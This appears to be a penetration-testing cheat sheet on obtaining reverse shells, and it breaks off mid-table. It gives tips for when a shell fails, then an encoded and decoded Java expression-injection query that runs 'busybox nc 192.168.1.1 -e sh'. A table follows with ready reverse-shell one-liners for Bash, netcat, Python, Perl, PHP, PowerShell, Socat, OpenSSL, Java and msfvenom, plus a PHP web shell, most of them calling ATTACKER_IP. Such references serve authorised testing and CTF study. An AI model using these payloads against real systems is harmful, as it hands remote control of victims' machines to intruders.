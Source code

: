4 Rules when trying to get Reverse Shell

- Is your payload correct? busy box?

- Is your port correct?

- If you can't execute shell via 1 liner. Write reverse shell file to file system then execute.

- what kind of web technology running -> what kind of reverse shell needed

- 

Encoded:search?query="%24{script%3Ajavascript%3Ajava.lang.Runtime.getRuntime().exec('busybox nc 192.168.1.1 -e sh')}"
Decoded:search?query="${script:javascript:java.lang.Runtime.getRuntime().exec('busybox nc 192.168.1.1 -e sh')}"

<small>

| **Type**           | **Example Payload**                                                                                     | **When to Use**                                                        | **How to Know You Can Use It**                                                  |
|--------------------|----------------------------------------------------------------------------------------------------------|------------------------------------------------------------------------|----------------------------------------------------------------------------------|
| **Bash**           | `bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1`                                                              | When target has bash and can access your IP/port over TCP              | `which bash` or `echo $0` shows bash; target OS is full Linux                   |
| **sh (BusyBox)**   | `sh -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1`                                                                | On minimal systems (e.g., Alpine, embedded) using BusyBox              | `which sh` or `which busybox`; often default shell in containers                |
| **Netcat (nc)**    | `nc -e /bin/sh ATTACKER_IP PORT`                                                                         | When Netcat with `-e` support is available                             | `nc -h` includes `-e`; or run `which nc`, `nc --version`                        |
| **Netcat (no -e)** | ``rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc ATTACKER_IP PORT > /tmp/f``               | If Netcat exists but `-e` is disabled                                           | `nc -h` shows no `-e`; use fallback chaining with FIFO                          |
| **Python**         | `python -c 'import socket,subprocess,os; s=socket.socket(); ...'`                                        | If Python is installed                                                 | `which python` or `python --version`; supports TTY spawning                     |
| **Perl**           | `perl -e 'use Socket;$i="ATTACKER_IP";$p=PORT;...exec("/bin/sh -i");'`                                   | Legacy systems with Perl                                               | `which perl`; check Perl installed                                              |
| **PHP**            | `php -r '$sock=fsockopen("ATTACKER_IP",PORT);exec("/bin/sh -i <&3 >&3 2>&3");'`                         | If you have RCE via PHP or a web shell                                 | `which php`; check web server stack                                             |
| **PowerShell**     | `powershell -c "$client = New-Object Net.Sockets.TCPClient(...)"`                                        | On Windows targets with PowerShell                                     | PowerShell is available; RCE via CMD injection or Win web server                |
| **Socat**          | `socat TCP:ATTACKER_IP:PORT EXEC:/bin/bash,pty,stderr,setsid,sigint,sane`                               | If Socat is installed, for fully interactive shells or TLS             | `which socat`; great for persistent backconnects and stable TTY                 |
| **OpenSSL**        | `sh -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1` piped through `openssl s_client ...`                          | When Socat is unavailable but OpenSSL exists for encrypted connection  | `which openssl`; needs listener with cert (`openssl s_server`)                 |
| **Java RCE**       | `${script:javascript:Runtime.getRuntime().exec("nc ...")}`                                               | Log4Shell, Struts2, or Expression Language injection                   | Detect Java injection; test with `${script:javascript:Runtime.getRuntime().exec("id")}` |
| **JSP Reverse Shell** | Upload JSP file that calls `Runtime.getRuntime().exec(...)`                                          | If you can upload/trigger a JSP file on a Tomcat or JSP server         | You control upload, or find `.jsp` endpoint                                     |
| **Meterpreter**    | `msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=...`                                                | For post-exploitation or persistent C2 access via Metasploit           | You can upload & execute ELF/EXE; listener set up in Metasploit                 |
| **Go Reverse Shell** | Custom Go binary that connects back and spawns shell                                                  | When Go is allowed (rare), or you can upload your own static binary    | Compile locally (`go build`) and upload; use if no scripting language on target |
| **Web Shells**     | PHP: `<?php system($_GET['cmd']); ?>` or ASPX/JSP     
